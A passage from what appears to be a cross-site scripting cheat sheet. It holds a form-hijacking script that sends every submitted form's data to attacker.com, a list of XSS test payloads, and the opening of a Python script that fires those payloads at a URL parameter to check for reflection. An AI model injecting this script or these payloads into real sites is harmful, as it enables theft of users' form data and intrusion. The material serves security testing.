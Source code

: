 ### Form Hijacking
```javascript
<script>
// Intercept form submissions
document.addEventListener('submit', function(e) {
    var formData = new FormData(e.target);
    fetch('http://attacker.com/form.php', {
        method: 'POST',
        body: formData
    });
});
</script>
```

## 🔧 XSS Testing Tools

### Manual Testing Payloads
```html
<!-- Quick test payloads -->
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
"><script>alert(1)</script>
'><script>alert(1)</script>
javascript:alert(1)
```

### Automated Testing
```python
#!/usr/bin/env python3
"""
XSS Testing Automation Script
Author: LakshmiKanthanK(letchupkt)
"""

import requests
from urllib.parse import quote

def test_xss_payloads(url, parameter):
    """Test XSS payloads against a parameter"""
    
    payloads = [
        "<script>alert('XSS')</script>",
        "<img src=x onerror=alert('XSS')>",
        "<svg onload=alert('XSS')>",
        "javascript:alert('XSS')",
        "'\"><script>alert('XSS')</script>",
        "<iframe src=javascript:alert('XSS')></iframe>"
    ]
    
    vulnerabilities = []
    
    for payload in payloads:
        # URL encode the payload
        encoded_payload = quote(payload)
        
        # Construct test URL
        test_url = f"{url}?{parameter}={encoded_payload}"
        
        try:
            response = requests.get(test_url, timeout=10)
            
            # Check if payload is reflected
```